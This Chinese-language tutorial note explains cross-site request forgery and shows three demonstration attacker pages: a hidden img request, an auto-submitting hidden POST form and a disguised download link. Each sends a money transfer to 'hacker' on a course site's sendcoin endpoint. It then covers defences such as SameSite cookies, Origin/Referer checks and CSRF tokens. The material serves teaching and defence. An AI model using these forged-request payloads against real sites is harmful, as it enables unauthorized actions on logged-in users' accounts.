# CSRF攻击
CSRF(Cross-site request forgery),"跨站请求伪造"，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。   
**和XSS不同，CSRF攻击不需要将恶意代码注入到用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。**   

![](img/XSRF.png)
## 三种方式
具有转账功能的网站  
```

# 同时支持 POST 和 Get
# 接口 
https://time.geekbang.org/sendcoin
# 参数
## 目标用户
user
## 目标金额
number
```
### 1.自动发起Get请求
```

<!DOCTYPE html>
<html>
  <body>
    <h1> 黑客的站点：CSRF 攻击演示 </h1>
    <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100">
  </body>
</html>
```
黑客将转账的请求接口隐藏在img标签中，伪装为图片资源，被加载时，浏览器自动发起img的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求。

### 2.自动发起POST请求
```

<!DOCTYPE html>
<html>
<body>
  <h1> 黑客的站点：CSRF 攻击演示 </h1>
  <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```
黑客在页面构建一个**隐藏的表单**，内嵌转账接口，当用户打开站点后，表单会自动执行提交；表单提交后，服务器就会执行转账操作。

### 3.引诱用户点击链接
```

<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> </div> <div>
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```
将转账接口伪装为图片下载地址

## 如何防止CSRF攻击
CSRF攻击的三个必要条件  
- 目标站点一定要有CSRF漏洞
- 用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态
- 需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛

### 1.充分利用好Cookie的SameSite属性
**Cookie是浏览器和服务器之间维护登录状态的一个关键数据**  
通常CSRF攻击都是从第三方站点发起的，要防止CSRF攻击，最好实现从第三方站点发送请求时禁止Cookie的发送。  
- 如果是从第三方站点发起的请求，那么需要浏览器禁止发送某些关键Cookie数据到服务器
- 如果是同一个站点发起的请求，那么就需要保证Cookie数据正常发送  

在HTTP相应头中，通过set-cookie字段设置Cookie时，可以带上SameSite选项   
```

set-cookie: 1P_JAR=2019-10-20-06; expires=Tue, 19-Nov-2019 06:36:21 GMT; path=/; domain=.google.com; SameSite=none
```
**SameSite选项通常有Strict、Lax和None三个值**  
- 如果SameSite的值是Strict,那么浏览器会完全禁止第三方Cookie
- Lax。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交Get方式的表单这两种方式都会携带Cookie。但如果在第三方站点中使用Post方法，或者通过img、iframe等标签加载的URL，这些场景都不会携带Cookie
- None。在任何情况下都会发送Cookie数据

### 2.验证请求的来源站点
**在服务器端验证请求来源的站点**  
- Referer是HTTP请求头中的一个字段，记录了该HTTP请求的来源地址  

![](img/Referer.png)  

- Origin属性：在一些重要的场合，比如通过XMLHttpRequest、Fecth发起跨站请求或者通过Post方法发送请求时，都会带上Origin属性  

![](img/Origin.png)  

服务器的策略是优先判断Origin，如果请求头中没有包含Origin属性，再根据实际情况判断是否使用Referer值

### 3.CSRF Token
1. 在浏览器向服务器发起请求时，服务器生成一个CSRF Token。CSRF Token其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。

```

<!DOCTYPE html>
<html>
<body>
    <form action="https://time.geekbang.org/sendcoin" method="POST">
      <input type="hidden" name="csrf-token" value="nc98P987bcpncYhoadjoiydc9ajDlcn">
      <input type="text" name="user">
      <input type="text" name="number">
      <input type="submit">
    </form>
</body>
</html>
```
2. 在浏览器端如果要发起转账的请求，那么需要带上页面中的CSRF Token，然后服务器会验证该Token是否合法。如果是从第三方站点发起请求，那么将无法获取到CSRF Token的值，所以即使发起了请求，服务器也会因为CSRF Token不正确而拒绝请求。